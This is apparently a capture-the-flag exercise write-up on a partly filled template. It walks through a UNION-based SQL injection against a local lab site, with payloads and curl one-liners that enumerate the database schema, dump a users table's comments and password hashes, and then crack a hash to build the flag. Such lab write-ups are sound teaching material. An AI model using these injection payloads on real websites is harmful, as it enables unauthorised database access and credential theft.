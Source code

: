# Exercise Name

## 📖 Vulnerability Explanation
[Explain what the vulnerability is, how it works, and why it's dangerous. Include conditions required for exploitation if applicable.]

## ⚙️ Exploitation Process

- Dump databases

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>//' | sed 's/<\/pre>//' | grep -v table | awk '{print $3}'
```

---

- Dump tables

```
0 UNION SELECT table_schema,table_name FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+table_schema%2Ctable_name+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Database   : /' | sed 's/Surname : /[-] Table name : /' | grep -v table
```

---

- Dump columns of table users

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x7573657273; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x7573657273%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Surname : //' | grep -v 'First name' | grep -v table
```

---

- Read the columns _comentaires_ and _countersign_

```
0 UNION SELECT Commentaire,countersign FROM Member_Sql_Injection.users; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+Commentaire%2Ccountersign+FROM+Member_Sql_Injection.users%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Commentaire : /' | sed 's/Surname : /[-] Countersign : /' | grep -v table
```

---

- Crack the hash and craft the flag using the steps provided

> IMAGE crakstation.net

```
sha256sum =(echo -n 'fortytwo')
```

## 🧰 Additional Resources Used *(Optional)*
- [Tool/Script Name]: [Brief description of purpose]
- Example: *Custom Python script to exploit XXE and read arbitrary files from the server.*

## 🔧 Fix
[Describe how to fix the vulnerability]

## ☝️🤓 Advanced explanation
[Provide advanced explanation for the bonus part]